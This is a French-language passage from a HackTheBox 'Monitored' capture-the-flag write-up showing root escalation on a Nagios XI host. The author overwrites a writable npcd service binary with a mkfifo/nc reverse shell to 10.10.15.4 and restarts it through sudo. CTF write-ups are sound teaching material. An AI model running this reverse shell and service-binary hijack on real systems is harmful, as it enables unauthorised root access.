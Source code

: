 ![services locations](/images/HTB-Monitored/services-location.png)

Nous vérifions également les permissions des binaires et nous notons que nous avons les permissions d'écriture pour `npcd`. Nous pouvons éditer le contenu du fichier et le remplacer par une commande malveillante pour obtenir un shell.

![Binaries permissions](/images/HTB-Monitored/binaries-perms.png)

1. Stopper le service

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

2. Editer `npcd`

```
echo '#!/bin/bash' > /usr/local/nagios/bin/npcd

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.4 5555 >/tmp/f' >> /usr/local/nagios/bin/npcd
```

3. Démarrez un listener et démarrez le service `npcd` à l'aide du script

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

Nous obtenons un shell root sur notre listener et nous pouvons lire le drapeau root dans `/root/root.txt`.

![Root flag](/images/HTB-Monitored/root-flag.png)

J'espère que cet article vous a été utile! Si vous avez des questions, vous pouvez me contacter sur Twitter à [_KScorpio](https://twitter.com/_KScorpio).
